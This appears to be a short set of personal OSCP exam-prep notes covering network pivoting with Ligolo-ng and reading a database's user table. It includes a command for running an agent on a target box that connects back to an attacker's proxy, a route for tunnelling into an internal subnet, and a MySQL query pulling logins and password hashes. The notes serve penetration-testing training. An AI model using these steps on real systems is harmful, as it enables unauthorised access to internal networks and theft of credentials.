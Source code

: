 Another example:
![[OSCP/attachments/Pasted image 20250622143231.png]]

# Pivoting
[Guide for setting up Ligolo](https://www.hackingarticles.in/a-detailed-guide-on-ligolo-ng/)

Ligolo needs to be started with admin privvies. 

On Kali 
```
./proxy -selfcert
```

On target box
```
./agent.exe -connect 192.168.45.222:11601 -ignore-cert
```

Add resulting internal network
```
sudo ip route add 172.16.98.0/24 dev ligolo
```

Or type `autoroute`
# MYSQL 

See column names from table
```
describe llx_user;
```

View specific column data  from table
```
select login, pass, pass_crypted from llx_user;
```
